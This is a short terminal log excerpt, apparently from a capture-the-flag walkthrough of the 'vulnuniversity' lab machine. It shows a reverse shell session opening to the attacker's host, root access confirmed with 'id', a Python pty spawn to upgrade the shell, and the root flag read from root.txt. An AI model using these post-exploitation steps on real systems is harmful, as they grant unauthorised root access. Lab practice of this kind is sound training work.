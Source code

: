 ```
[+] Deleted /tmp/.shaouaund
[!] Tried to delete /tmp/.shaouaund, unknown result
[*] Command shell session 2 opened (10.8.100.14:6666 -> 10.10.38.94:37650) at 2023-07-01 16:25:26 +0200
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
import pty;pty.spawn("/bin/bash");'
root@vulnuniversity:/#
root@vulnuniversity:/# cat root/root.txt
cat root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```
